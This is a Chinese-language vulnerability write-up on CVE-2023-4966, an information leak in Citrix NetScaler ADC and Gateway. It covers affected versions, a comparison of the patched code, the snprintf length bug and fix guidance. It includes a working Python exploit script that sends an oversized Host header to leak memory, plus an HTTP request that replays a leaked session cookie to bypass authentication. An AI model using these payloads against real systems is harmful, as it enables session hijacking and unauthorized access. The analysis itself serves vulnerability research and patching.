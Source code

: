 

# CVE-2023-4966 Citrix NetScaler ADC & Gateway信息泄露漏洞 - 先知社区

CVE-2023-4966 Citrix NetScaler ADC & Gateway信息泄露漏洞

- - -

## 一、漏洞概述

漏洞编号：CVE-2023-4966

影响的版本：

NetScaler ADC 和 NetScaler Gateway 14.1 < 14.1-8.50

NetScaler ADC 和 NetScaler Gateway 13.1 < 13.1-49.15

NetScaler ADC 和 NetScaler Gateway 13.0 < 13.0-92.19

NetScaler ADC 13.1-FIPS < 13.1-37.164

NetScaler ADC 12.1-FIPS < 12.1-55.300

NetScaler ADC 12.1-NDcPP < 12.1-55.300

影响厂商：美国思杰（Citrix）公司

厂商官网地址：[https://www.citrix.com/](https://www.citrix.com/)

漏洞说明：NetScaler ADC和NetScaler Gateway是美国思杰（Citrix）公司的产品。Citrix Gateway是一套安全的远程接入解决方案，可提供应用级和数据级管控功能，以实现用户从任何地点远程访问应用和数据；Citrix ADC是一个全面的应用程序交付和负载均衡解决方案，用于实现应用程序安全性、整体可见性和可用性。在 Citrix 设备设置为网关（VPN 虚拟服务器、ICA 代理、CVPN、RDP 代理）或 AAA 虚拟服务器的情况下，可以通过访问/oauth/idp/.well-known/openid-configuration路由并往 HOST字段发送大量数据从而泄露缓冲区信息，其中可能包含session cookie相关信息，攻击者可以借助该信息无需经过身份验证实现访问。

## 二、漏洞分析详情

我们选择 NetScaler Gateway 的 13.1-49.15和13.1-48.47 两个版本进行分析，主要关注其 /netscaler/nsppe 二进制文件的相关补丁，该文件是 NetScaler 数据包处理引擎，它包含完整的 TCP/IP 网络堆栈以及多个 HTTP 服务。

通过分析，最终确定与漏洞相关的函数为：ns\_aaa\_oauth\_send\_openid\_config和ns\_aaa\_oauthrp\_send\_openid\_config

更新前后代码的主要差异如下：

更新前：

```plain
iVar3 = snprintf(print_temp_rule,0x20000,
               "{\"issuer\": \"https://%.*s\", \"authorization_endpoint\": \"https://%.*s/oauth/ idp/login\", \"token_endpoint\": \"https://%.*s/oauth/idp/token\", \"jwks_uri\":  \"https://%.*s/oauth/idp/certs\", \"response_types_supported\": [\"code\", \"toke n\", \"id_token\"], \"id_token_signing_alg_values_supported\": [\"RS256\"], \"end _session_endpoint\": \"https://%.*s/oauth/idp/logout\", \"frontchannel_logout_sup ported\": true, \"scopes_supported\": [\"openid\", \"ctxs_cc\"], \"claims_support ed\": [\"sub\", \"iss\", \"aud\", \"exp\", \"iat\", \"auth_time\", \"acr\", \"amr \", \"email\", \"given_name\", \"family_name\", \"nickname\"], \"userinfo_endpoin t\": \"https://%.*s/oauth/idp/userinfo\", \"subject_types_supported\": [\"public\"]}"
               ,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8);
authv2_json_resp = 1;
iVar3 = ns_vpn_send_response(param_1,0x100040,print_temp_rule,iVar3);
```

更新后：

```plain
uVar7 = snprintf(print_temp_rule,0x20000,
               "{\"issuer\": \"https://%.*s\", \"authorization_endpoint\": \"https://%.*s/oauth/ idp/login\", \"token_endpoint\": \"https://%.*s/oauth/idp/token\", \"jwks_uri\":  \"https://%.*s/oauth/idp/certs\", \"response_types_supported\": [\"code\", \"toke n\", \"id_token\"], \"id_token_signing_alg_values_supported\": [\"RS256\"], \"end _session_endpoint\": \"https://%.*s/oauth/idp/logout\", \"frontchannel_logout_sup ported\": true, \"scopes_supported\": [\"openid\", \"ctxs_cc\"], \"claims_support ed\": [\"sub\", \"iss\", \"aud\", \"exp\", \"iat\", \"auth_time\", \"acr\", \"amr \", \"email\", \"given_name\", \"family_name\", \"nickname\"], \"userinfo_endpoin t\": \"https://%.*s/oauth/idp/userinfo\", \"subject_types_supported\": [\"public\"]}"
               ,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8);
uVar4 = 0x20;
if (uVar7 < 0x20000) {
    authv2_json_resp = 1;
    iVar3 = ns_vpn_send_response(param_1,0x100040,print_temp_rule,uVar7);
    ...
}
```

该代码段落在访问 /oauth/idp/.well-known/openid-configuration路由的时候将被调用，其逻辑是通过调用 snprintf()函数构造一个 json 数据并通过 ns\_vpn\_send\_response()函数形成http response 返回给用户，这个 json 数据中拼接了来自 http 请求的 **HOST 字段的数据**

正常访问 /oauth/idp/.well-known/openid-configuration路由的返回界面如下：

[![](assets/1699929042-03faa7de16586a595f2c64a8ae0752b3.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231113170151-493450b2-8203-1.jpg)

snprintf()函数虽然通过第二个参数限制了 print\_temp\_rule对应的字符串的最大长度，但是 snprintf()函数的返回值却是 完成 format 之后预期的 字符串的长度，也就是说即使第二个参数为 0x20000 ，snprintf()函数的返回值可以大于 0x20000

ns\_vpn\_send\_response()函数的第四个参数决定了读取的内存大小，这就意味着 紧跟在 print\_temp\_rule变量之后的缓冲区中的信息能够被带入 response 当中

从上面的分析可以想到，攻击者能够在访问 /oauth/idp/.well-known/openid-configuration路由时往 Host字段插入大量数据，从而使得返回的response 中带上缓冲区信息，导致信息泄露。

## 三、漏洞利用脚本

```plain
import requests
from urllib.parse import urljoin

url = "https://ip:port"

headers = {"Host": "a"*24578}
try:
    r = requests.get(urljoin(url,"/oauth/idp/.well-known/openid-configuration"), headers=headers, verify=False,timeout=10)
    print(r.status_code)
    if len(r.content) > 0:
        with open("resp.txt","wb") as f:
            f.write(r.content)
except Exception as e:
    print(e)
```

在 response 中可能会包含 长度为 65 或 32 的 session cookie ，比如：

```plain
5e588bab9a60e4831bc1da8ade46d78b0c3a01c3a45525d5f4f58455e445a4a42
```

[![](assets/1699929042-8d6c0b2afd1c039f7d9a4ec903770b24.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113120657-164da6cc-81da-1.png)

攻击者可以借助该信息无需经过身份验证实现系统的访问：

```plain
GET /logon/LogonPoint/Authentication/GetUserName HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: NSC_AAAC=5e588bab9a60e4831bc1da8ade46d78b0c3a01c3a45525d5f4f58455e445a4a42
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
```

​

[![](assets/1699929042-27d7190724d355b3744add8a5818ec5e.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231113170344-8c2c4af0-8203-1.jpg)

## 四、漏洞影响

NetScaler ADC 和 NetScaler Gateway 14.1 < 14.1-8.50

NetScaler ADC 和 NetScaler Gateway 13.1 < 13.1-49.15

NetScaler ADC 和 NetScaler Gateway 13.0 < 13.0-92.19

NetScaler ADC 13.1-FIPS < 13.1-37.164

NetScaler ADC 12.1-FIPS < 12.1-55.300

NetScaler ADC 12.1-NDcPP < 12.1-55.300

**前提条件：**为了利用该漏洞，Citrix 设备必须设置为网关（VPN 虚拟服务器、ICA 代理、CVPN、RDP 代理）或 AAA 虚拟服务器

## 五、修复方案

官方最新版本已修复此漏洞。

下载地址为：

[https://www.citrix.com/downloads/citrix-adc/](https://www.citrix.com/downloads/citrix-adc/)

\[[https://www.citrix.com/downloads/citrix-gatewa](https://www.citrix.com/downloads/citrix-gatewa)

